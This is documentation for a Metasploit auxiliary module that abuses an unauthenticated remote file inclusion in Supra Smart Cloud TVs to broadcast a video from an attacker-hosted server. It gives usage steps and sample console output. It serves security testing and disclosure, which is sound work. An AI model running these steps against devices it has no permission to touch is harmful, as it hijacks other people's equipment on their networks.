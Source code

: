 ## Summary

This module exploits an unauthenticated remote file inclusion which exists in Supra Smart Cloud TV. 
The media control for the device doesn't have any session management or authentication. Leveraging this, an
attacker on the local network can send a crafted request to broadcast a fake video.

**Reference:** https://www.inputzero.io/2019/06/hacking-smart-tv.html

## Verification Steps

1. `use auxiliary/admin/http/supra_smart_cloud_tv_rfi `
2. `set RHOSTS [IP]`
3. `set SRVHOST [IP]`
4. `run`

Doo-doodoodoodoodoo-doo, Epic Sax Guy will be broadcasted to the remote system.

## Sample Output

```
msf5 > use auxiliary/admin/http/supra_smart_cloud_tv_rfi 
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set SRVHOST 192.168.1.132
SRVHOST => 192.168.1.132
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > set RHOSTS 192.168.1.155
RHOSTS => 192.168.1.155
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) > run
[*] Running module against 192.168.1.155
[*] Using URL: http://192.168.1.132:8080/
[*] Broadcasting Epic Sax Guy to 192.168.1.155:80
[+] Doo-doodoodoodoodoo-doo
[*] Sleeping for 10s serving .m3u8 and .ts files...
[*] Server stopped.
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/supra_smart_cloud_tv_rfi) >
```
